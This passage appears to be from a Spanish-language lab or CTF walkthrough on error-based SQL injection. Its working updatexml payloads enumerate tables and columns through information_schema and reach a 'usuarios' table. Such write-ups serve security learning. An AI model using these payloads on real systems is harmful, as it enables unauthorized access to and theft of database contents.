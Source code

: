 ![\1](/Attachments/Pasted%20image%2020250528165540.png)
_Obtenemos la Base De Datos Users

>Vemos que son 5 bases de datos en total, la mas prometedora es "Users", así que listaremos ahora las tablas de esa base de datos, para ello, la sintaxis de la inyección seria:

```sql
updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema='nombre de la base de datos' LIMIT 0,1)),1)-- -
```
_De esta manera intentamos obtener las tablas (table_name) del esquema de información de tablas (information_schema. Tables) donde el esquema de tablas (table_schema) es... Y de la misma manera, con LIMIT filtramos entre filas de la misma respuesta_

>Esto en la practica:

![\1](/Attachments/Pasted%20image%2020250528170747.png)

>Parece que esta base de datos "Users" solamente tiene una tabla "usuarios", así que ahora vamos a listar las columnas de esta tabla:

```sql
updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='nombre de la tabla' LIMIT 0,1)),1)-- -
```
_seleccionamos las columnas (column_name) de el esquema de información de columnas (information_schema.columns) donde el nombre de la tabla (table_name) es... Con LIMIT, filtramos la respuesta entre filas_

![\1](/Attachments/Pasted%20image%2020250528171610.png)
_La Query nos devuelve la columna id_
![\1](/Attachments/Pasted%20image%2020250528171638.png)
_La Query nos devuelve la columna username_
![\1](/Attachments/Pasted%20image%2020250528171653.png)